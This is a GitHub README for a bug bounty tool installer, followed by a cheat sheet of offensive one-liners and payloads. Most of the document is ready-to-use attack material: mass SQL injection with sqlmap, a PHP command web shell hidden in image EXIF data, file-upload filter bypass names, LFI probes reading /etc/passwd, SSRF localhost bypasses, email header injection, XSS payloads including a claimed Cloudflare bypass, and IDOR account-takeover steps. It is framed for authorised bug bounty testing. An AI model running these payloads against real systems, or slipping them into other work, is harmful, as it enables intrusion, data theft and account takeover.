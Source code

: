 # Awesome Bug Bounty Builder

[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/0xJin/awesome-bugbounty-builder/issues)


Awesome Bug bounty builder Project - ALL common Tools for find your Vulnerabilities.

**Tested on Debian.**


![bb](https://user-images.githubusercontent.com/81621963/147457586-79ac41eb-f995-455b-a144-f80a5783047a.PNG)


---

### Installation

```
$ git clone https://github.com/0xJin/awesome-bugbounty-builder.git
$ cd awesome-bugbounty-builder/
$ chmod +x awesome-bugbounty-builder.sh
$ ./awesome-bugbounty-builder.sh
```


### Which tools You will find here

> Amass -
> Sublister -
> Gauplus -
> httpx -
> gf + patterns -
> kxss -
> sqlmap -
> commix -
> tplmap -
> hydra -
> john the ripper -
> evilwinrm -
> Arjun -
> Paramspider -
> NoSQLmap -
> NMAP -
> nikto -
> FFUF -
> 403-Bypass -
> Gobuster -
> Seclists -
> Hash-identifier -
> XSSMAP -
> Smuggler -
> SSRFmap -
> gmapsapiscanner -
> qsreplace -
> exiftool -
> XSRFProbe 

---


### Bug Bounty TIPS and Usage of tools + One Liner TIPS


# ONE-LINER *RECON* for FUZZ XSS

```
$ amass enum -brute -passive -d example.com | httpx -silent -status-code | tee domain.txt
$ cat domain.txt | gauplus -random-agent -t 200 | gf xss | kxss | tee domain2.txt
```

---


# FUZZ all SUBDOMAINS with *FUFF* ONE-LINER

```
$ amass enum -brute -passive -d http://example.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w wordlist.txt -u @/FUZZ -mc 200'
```

---


# COMMAND Injection with *FUFF* ONE-LINER

```
$ cat subdomains.txt | httpx -silent -status-code | gauplus -random-agent -t 200 | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
$ ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
// search for ”uid” in burp proxy intercept 
// You can use the same query for search SSTI in qsreplase add "{{7*7}}" and search on burp for '49'
```


---


# SQL Injection Tips

```
// MASS SQL injection
$ amass enum -brute -passive -d example.com | httpx -silent -status-code | tee domain.txt
$ cat domain.txt | gauplus -random-agent -t 200 | gf sqli | tee domain2.txt
$ sqlmap -m domain2.txt -dbs --batch --random-agent
// SQL Injection headers:
$ sqlmap -u "http://redacted.com" --header="X-Forwarded-For: 1*" --dbs --batch --random-agent --threads=10
// SQL Injection bypass 401
$ sqlmap -u "http://redacted.com" --dbs --batch --random-agent --forms --ignore-code=401
```

---


# XSS + SQLi + CSTI/SSTI

```
Payload: '"><svg/onload=prompt(5);>{{7*7}}
```


---


# EXIFTOOL + file UPLOAD Tips

```
$ exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
// File Upload bypass
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```


---


# Open Redirect Tips ONE-LINER

```
$ export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```


---


# LFI ONE-LINER

```
$ gauplus -random-agent -t 200 http://redacted.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```


---


# Best SSRF Bypass

```
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```


---


# Email Header Injection 

```
$ "%0d%0aContent-Length:%200%0d%0a%0d%0a"@example
.com
$ "recipient@test.com>\r\nRCPT TO:<victim+"@test
.com
```


---


# XSS Payload for Image

```
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```


---


# My XSS for bypass CLOUDFLARE with default rules

```
"/><svg+svg+svg\/\/On+OnLoAd=confirm(1)>
```


---


# Find hidden params in javascript files

```
$ amass enum -passive -brute -d redacted.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```


---


# IDOR to Account TakeOver quickly

```
~Create an account 
~In the reset field set a password and intercept with burp
~GET /user/2099/reset (change to 2098) send the request
~Take the token 
~Cookie editor and use this token
~Reload page
```


---


### Thanks Follow me on Twitter

[@0xJin](https://twitter.com/0xJin) - This tool is made from 0xJin
